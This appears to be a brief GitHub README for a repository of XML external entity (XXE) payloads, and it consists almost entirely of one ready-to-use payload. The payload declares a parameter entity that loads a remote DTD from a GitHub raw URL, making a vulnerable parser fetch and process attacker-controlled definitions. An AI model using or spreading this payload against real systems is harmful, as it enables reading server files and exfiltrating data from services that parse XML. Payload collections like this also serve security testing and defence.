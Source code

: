 # XXE-Payloads
Quick access to XXE Payloads

XXE:
```
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "https://raw.githubusercontent.com/mbadanoiu/XXE-Payloads/main/1.xml">
%sp;
]>
```
